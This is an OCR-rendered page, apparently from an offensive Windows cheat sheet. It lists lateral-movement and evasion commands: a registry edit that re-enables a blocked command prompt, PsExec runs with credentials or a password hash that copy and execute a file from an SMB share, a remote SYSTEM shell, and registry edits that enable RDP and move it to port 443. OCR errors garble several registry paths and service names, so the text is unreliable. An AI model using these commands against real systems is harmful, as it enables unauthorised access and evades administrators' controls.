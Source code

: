 ### enable cmd

```text
reg add HKCU\Software\Policies\t1icrosoft\Windows\System /v DisableCHD /t REG DWORD /d 0 /f
```

## PSEXEC command

### Remote file execution with specific identity information

```text
psexec /accepteula \\ targetiP -u domain\user -p password -c -f \\ smbiP \share\file.exe
```


### Execution of command with special hash

```text
psexec /accepteula \\ ip -u Domain\user -p Lt1 c:\Program-1
```

### Run the command on the remote system

```text
psexec /accepteula \\ ip -s cmd.exe
```

## Terminal service \(RDP\)

### Start RDP

```text
Create regfile.reg file with following line in it: HKEY LOCAL t1ACHINE\SYSTEH\CurrentControlSet \Control\ TerminalService 
"fDenyTSCo~nections"=dword: 00000000
reg import reg file. reg 
net start ''terrnservice'' 
sc config terrnservice start= auto 
net start terrnservice 

    --OR--
reg add "HKEY LOCAL t1ACHINE\SYSTEH\CurentControlSet\Control \Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
```

### RDP tunnel from port 443 (need to restart the terminal service)

```text
REG ADD "HKLt1\System\CurrentControlSet\Control \Terminal Server\WinStations\RDP-Tcp" /v PortNumber /t REG_DWORD /d 443 /f 
```
